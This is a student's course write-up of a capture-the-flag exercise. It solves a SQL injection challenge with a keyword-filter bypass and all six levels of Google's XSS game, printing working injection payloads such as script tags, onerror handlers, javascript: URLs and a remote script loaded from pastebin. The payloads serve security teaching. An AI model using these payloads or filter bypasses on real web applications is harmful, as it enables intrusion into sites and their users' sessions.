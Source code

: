 # Crypto II Writeup

Name: Christopher Lai
Section: 0101

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Christopher Lai

## Assignment Writeup

### Part 1 (40 Pts)

I poked around the website for a little bit and noticed that the website queries a database for different items.  These start at 0 and go up.  I tried a basic sql injection of ```http://1337bank.money:5000/item?id=0' or '1'='1```, but got the message ```ERROR: ATTEMPTED SQL INJECTION DETECTED```.  The server is checking for some disallowed characters in the backend so I instead used the symbol ```||``` instead of the word ```or```.

This is the query that gave me the flag.

```http://1337bank.money:5000/item?id=0'||'1'='1```

Flag: ```CMSC389R-{y0u_ar3_th3_SQ1_ninj@}```

### Part 2 (60 Pts)

#### Level 1: 
They gave a vulnerable field where I could inject code, so I put the alert inside script tags and it worked.
```html
<script>alert("hi");</script>
``` 

#### Level 2:
There was a vulnerable image tag where I could inject my own code into the ```onerror``` function, which executes any arbitrary javascript.
```html
<img src="hi" onerror=alert("hi")>
```

#### Level 3:
The page used the ```num``` parameter passed in to get the image.  If you close off the quote early similar to a sql injection, you can then put your own code after.  I used ```onerror``` function from the last challenge to input the alert.

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert("hi")'
```

#### Level 4:
The input box is not sanitizing user input so we can prematurely close the call to startTimer and call our alert.

Call to startTimer:
```html
startTimer('{{ timer }}');"
```

Inject:
```html
'); alert('hi
```

#### Level 5:
There is a ```next``` parameter in the url that is used as the target for the ```a href```.  You can call javascript from within an a tag by using ```javascript:```.  After you inject the code below, type in an email and hit next.

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("hi")
```

#### Level 6:
This site automatically loads any arbitrary file, but first checks that http or https is not in the url.  I saw the regex and capitalized HTTPS so it would load my file.  I hosted my file on pastebin, and simply put ```alert("hi");``` inside.

regex
```javascript
if (url.match(/^https?:\/\//)) {
```

url:
```
https://xss-game.appspot.com/level6/frame#http://pastebin.com/raw/5m3aMjSK
```




